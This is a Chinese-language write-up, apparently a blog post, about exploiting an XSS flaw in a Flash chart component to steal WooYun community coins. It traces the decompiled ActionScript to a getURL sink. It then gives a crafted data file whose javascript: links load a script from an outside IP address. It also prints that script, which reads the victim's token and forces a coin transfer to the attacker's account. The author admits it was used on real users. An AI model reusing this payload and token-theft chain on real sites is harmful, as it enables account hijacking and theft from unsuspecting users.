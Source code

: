 # 闲扯下午引爆乌云社区“盗窃”乌云币事件

起因
--

* * *

请各位看官看这里：[http://zone.wooyun.org/content/4997](http://zone.wooyun.org/content/4997)

斗胆分析下漏洞细节，在[http://www.showmycode.com/](http://www.showmycode.com/)上面反编译该 flash 代码。

搜索，配置文件是通过 data 参数传入进去的，搜索 _root.data，找到如下代码：

```
var lv = new LoadVars();
lv.onLoad = LoadVarsOnLoad;
lv.make_chart = make_chart;
lv.make_pie = make_pie;
if (_root.data == undefined) {
    if (_root.variables == undefined) {
        _root.data = "C:\\Users\\John\\Documents\\flash\\svn\\data-files\\data-47.txt";
        lv.load(_root.data);
    } else {
        _root.LoadVarsOnLoad = LoadVarsOnLoad;
        _root.LoadVarsOnLoad(true);
    }
} else {
    lv.load(_root.data);
}

```

通过 LoadVars 载入的，LoadVars 载入的数据是以 & 符号分割的，载入完成调用 LoadVarsOnLoad 函数。跟进去看代码

```
function LoadVarsOnLoad(success) {
    if (!success) {
        _root.loading.done();
        _root.oops(_root.data);
        return(undefined);
    }
    if (_root.oops != undefined) {
        removeMovieClip("oops");
    }
    for (i in _root) {
        if (typeof(_root[i]) == "movieclip") {
            removeMovieClip(_root[i]);
        }
        delete i;
    }
    _root.css = new Css("margin-top: 30;margin-right: 40;");
    NumberFormat.getInstance(this);
    NumberFormat.getInstanceY2(this);
    _root._background = new Background(this);
    if (this.pie != undefined) {
        this.make_pie();
    } else {
        this.make_chart();
    }
    if (this.tool_tip != undefined) {
        _root.tool_tip_wrapper = this.tool_tip.replace("#comma#", ",");
    }
    _root.loading.done();
    _root.move();
}

```

看下面，如果外部数据中有 pie ，就调用 this.make_pie()。

```
if (this.pie != undefined) {
        this.make_pie();
}

```

搜索 make_pie 这个函数看代码，有如下，调用了 new PieStyle(this, "pie");

```
function make_pie() {
    _root._pie = new PieStyle(this, "pie");
    _root._title = new Title(this);
}

```

继续跟进去，在这个类中的初始化函数最开始有 links = lv.links.split(","); ，lv.links 从外部传入通过 split 后放入 links ，最后调用了 set_values(_local6)，继续看 set_values 函数，有如下代码：

```
function set_values(v) {
    super.set_values(v);
    pie_mcs = new Array(values.length);
    var _local4 = 0;
    while (_local4 < values.length) {
        var _local5 = _root.createEmptyMovieClip((name + "_") + _local4, _root.getNextHighestDepth());
        _local5.onRollOver = function () {
            ChartUtil.FadeIn(this, true);
        };
        _local5.onRollOut = function () {
            ChartUtil.FadeOut(this);
        };
        if (links.length > _local4) {
            _local5._ofc_link = links[_local4];
            _local5.onRelease = function () {
                trace(this._ofc_link);
                getURL (this._ofc_link);
            };
        }
        var _local6 = {x_label:labels[_local4], value:values[_local4], key:"??"};
        _local5.tooltip = _local6;
        pie_mcs[_local4] = _local5;
        _local4++;
    }
    valPos();
}

```

这个函数是关键，遍历 links，然后放入 getURL 中，因为 getURL 这里是可以执行 js 代码的。

利用
--

* * *

既然可以 xss，那就可以绕过 token 机制，对 wooyun 的业务进行操作了，先来看下如何构造远程数据。看如下代码：

```
&title=腾讯高危漏洞一览表（点击类别可以查看详情）,{font-size:18px; color: #d01f3c}&
&x_axis_steps=1&
&y_ticks=50,50&
&line=2,#87421F&
&y_min=0&
&y_max=20&
&pie=60,#E4F0DB,{display:none;},1,,1&
&values=50,50&
&pie_labels=远程命令执行,腾讯客户端溢出&
&colours=#d01f3c,#356aa0&
&links=javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s);,javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s);&
&tool_tip=类别%3A+%23x_label%23%3Cbr%3E比例%3A+%23val%23%25&

```

起了个很响亮的标题明“腾讯高危漏洞一览表（点击类别可以查看详情）”，让看到的很很有欲望点击中间的圆圈圈有木有，链接写成

```
javascript:window.s=document.createElement('script');window.s.src='http://42.96.150.181/data.js';document.body.appendChild(window.s);

```

加载我们的 js 文件。

js 文件的代码如下：

```
/*
 * ajax
 */
ajax = function(url, params, callback) {
    (params instanceof Function) && (callback = params, params = void(0));
    var XHR = (window.XDomainRequest) || window.XMLHttpRequest || (function() {
        return new ActiveXObject('MSXML2.XMLHTTP')
    });
    var xhr = new XHR();
    xhr.open(params ? 'post' : 'get', url);
    xhr.withCredentials = true;
    try {
        params && xhr.setRequestHeader('content-type', 'application/x-www-form-urlencoded');
    } catch (e) {}
    callback && (xhr.onreadystatechange = function() {
        (this.readyState == 4 && ((this.status >= 200 && this.status <= 300) || this.status == 304)) && callback.apply(
this, arguments);
    });
    xhr.send(params);
};

ajax("http://www.wooyun.org/user.php?action=update", function(){
    var token = this.responseText.match(/token" value=\"(.+?)\"/)[1]
    ajax("http://www.wooyun.org/user.php?action=coin&do=action_submit", "token=" + token + "&to_whitehat=xsser&to_coin=
1");
})

```

借用 sogili xss.js 中的 ajax 代码，先获取当前用户的 token，然后再进行转账操作。

效果
--

* * *

来找个实战的地方，发到 wooyun，见这里：[http://zone.wooyun.org/content/5548](http://zone.wooyun.org/content/5548)

后续
--

* * *

其实我没想到这么多人中招的，本来抱着娱乐的目的玩玩的，看来好多人情绪很高涨，在这里先对各位抱个歉。